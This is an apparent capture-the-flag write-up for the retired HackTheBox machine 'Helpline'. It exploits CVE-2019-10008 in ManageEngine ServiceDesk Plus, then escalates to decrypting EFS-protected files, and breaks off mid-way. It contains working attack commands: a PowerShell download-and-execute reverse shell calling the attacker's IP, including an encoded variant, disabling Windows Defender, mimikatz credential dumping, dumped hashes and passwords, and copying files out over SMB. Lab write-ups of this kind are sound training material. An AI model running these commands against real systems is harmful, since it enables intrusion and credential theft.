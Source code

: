 # Helpline

This is the write-up for the box Helpline that got retired at the 17th August 2019.
My IP address was 10.10.13.230 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.132    helpline.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/helpline.nmap 10.10.10.132
```

```markdown
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
8080/tcp open  http-proxy    -
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Set-Cookie: JSESSIONID=95A3A72E00D0F838E1ACBDF21ECD3923; Path=/; HttpOnly
|     Cache-Control: private
|     Expires: Thu, 01 Jan 1970 01:00:00 GMT
|     Content-Type: text/html;charset=UTF-8
|     Vary: Accept-Encoding
|     Date: Sun, 25 Aug 2019 12:30:20 GMT
|     Connection: close
|     Server: -
```

## Checking HTTP (Port 8080)

On this page we see some Help Desk Software from **ManageEngine ServiceDesk Plus** in the version 9.3.
So lets look for exploits:

```markdown
searchsploit servicedesk 9.3
```

There are some exploits for this software. The privilege escalation exploit _exploits/jsp/webapps/46659.py_ looks good but first we need a username.
If we google for default users for this software, we will get result or another way is to get valid usernames with fuzzing:

```markdown
wfuzz -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt -u 'http://10.10.10.132:8080/domainServlet/AJaxDomainServlet?action=searchLocalAuthDomain&timestamp=Sun%20Aug%2025%202019%2015:42:43%20GMT+0200%20(CEST)&search=FUZZ'
```

The usernames _administrator_ and _guest_ with the password _guest_ works.

### CVE-2019-10008

The exploit script uses the vulnerability CVE-2019-10008 and this is what we need to understand first.
It is explained on the founders page: [GitHub page for CVE-2019-10008](https://github.com/FlameOfIgnis/CVE-2019-10008).

Optional:
> To understand every step of this script fully, you can send every request through Burpsuite. Put the following line in the **.curlrc** file and every request gets through Burpsuite:

```markdown
proxy = http://127.0.0.1:8080
```

In the script change the hostname to the IP address of the box and execute it.
It will give us two cookies that we need to replace with out current ones. Put the values given from the script for _JSESSIONSSO_ and JSESSIONID_ and refresh the page.
After that we will be logged in as administrator.

### Getting a reverse shell

Now we are logged in as administrator and want a reverse shell on the box. There is a way to execute code on this webpage.

In the **Admin** page there is a field named **Custom Triggers**. Create a custom trigger like this:
```markdown
Execute the Action: When a Request is created - Any Time
Match criteria: Sender is not whatever
Action Type: Execute Script: cmd /c powershell -c IEX(New-Object Net.WebClient).downloadString('http://10.10.13.230/shell.ps1')
```

_Shell.ps1_ is just the standard reverse shell from Nishand called _Invoke-PowerShellTcp.ps1_.
It is important that there is only one trugger or else it won't work well.

Optional:
> We can minimize the types of characters we are sending, to not get into a input filter:

```markdown
Base64 decode command:
echo "IEX(New-Object Net.WebClient).downloadString('http://10.10.13.230/shell.ps1')" | iconv -t UTF-16LE  | base64 -w 0

Put this command into the web application:
cmd /c powershell -nop -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEAMwAuADIAMwAwAC8AcwBoAGUAbABsAC4AcABzADEAJwApAAoA
```

After listening the port 9001 (which I choose in shell.ps1) we get a reverse shell!

## Privilege Escalation

Now as we have a shell on the box lets try to increase our privileges. We are logged in as **NT Authority/SYSTEM** but can
t read any flags. With the following command we can see what is wrong with that:

```markdown
cipher /c C:\Users\Administrator\Desktop\root.txt
```

This command shows us that only the user _Administrator_ can read it. This box uses **Encrypted File System** which is an built-in encryption in Windows.

Lets check for files in the home folders:

```markdown
gci -recurse | select fullname
```

Interesting files:
- C:\Users\tolu\Desktop\user.txt
  - Only _tolu_ can decrypt it
- C:\Users\leo\Desktop\admin-pass.xml
  - Only leo can decrypt it
  
So this means that we actually have to decrypt some stuff. In that case we drop Mimikatz on the box:

```markdown
IWR -uri hxxp://10.10.13.230/mimikatz.exe -outfile mimikatz.exe
```

Execution of this won*t work because of Windows Defender but we can disable that quickly:

```markdown
Set-MpPreference -DisableRealTimeMonitoring $true
```

Now dump NTLM passwords:

```markdown
.\mimikatz “token::elevate” “lsadump:sam” “exit”
```

Here are the hashes we get and want to crack or look for:
- Administrator:d5312b245d641b3fae0d07493a022622
- alice:998a9de69e883618e987080249d20253
- zachary:eef285f4c800bcd1ae1e84c371eeb282
- niels:35a9de42e66dcdd5d512a796d03aef50
- leo:60b05a66232e2eb067b973c889b615dd
- tolu:03e2ec7aa7e82e479be07ecd34f1603b

The only hash that could be found on hashes.org was from the user _zachary_. His password is:
> 0987654321

Looking for his groups:

```markdown
net user zachary
```

The user is member of the group **Event Log Readers**. There is a nice script on GitHub to process events on Windows:
[Get-WinEventData](https://github.com/RamblingCookieMonster/PowerShell/blob/master/Get-WinEventData.ps1)

```markdown
IEX(New-Object Net.WebClient).downloadString('http://10.10.13.230/Get-WinEventData.ps1')
$x = Get-WinEvent -FilterHashTable @{Logname='security';id=4688} | Get-WinEventData
Get-WinEvent -FilterHashTable @{Logname='security';id=4688} -MaxEvents 1 | Get-WineventData | fl *
Get-WinEvent -FilterHashTable @{Logname='security';id=4688} | Get-WineventData | select e_CommandLine | ft -autosize -wrap
```

In the output of the last command we can find this information:
> /USER:tolu !zaq1234567890pl!99

Now we have the password for _tolu_ and can decrypt the EFS for user.txt.

### Getting user.txt

We need the thumbprint of the file:
```markdown
cipher /c C:\Users\tolu\Desktop\user.txt
```

It is:
> 91EF 5D08 D1F7 C60A A0E4 CEE7 3E05 0639 A669 2F29

If we compare that to the users certificate we see that it is the same string. Location of certificate:
> C:\Users\tolu\AppData\Roaming\Microsoft\SystemCertificates\My\Certificates\91EF5D08D1F7C60AA0E4CEE73E050639A6692F29

There is a tutorial on [how to decrypt EFS files](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-decrypt-EFS-files) and I will go through these steps.

Getting the certificate:
```markdown
.\mimikatz "crypto::system /file:C:\Users\tolu\AppData\Roaming\Microsoft\SystemCertificates\My\Certificates\91EF5D08D1F7C60AA0E4CEE73E050639A6692F29 /export" "exit"
```

We now have the certificate the its **public key** as a .der file. Get this on our client with a SMB server:

```markdown
impacket-smbserver -smb2support -user test -password test test $(pwd)

Copy the file to our machine:
net use Y: \\10.10.13.230\test /user:test test
copy 91EF5D08D1F7C60AA0E4CEE73E050639A6692F29.der Y:
```
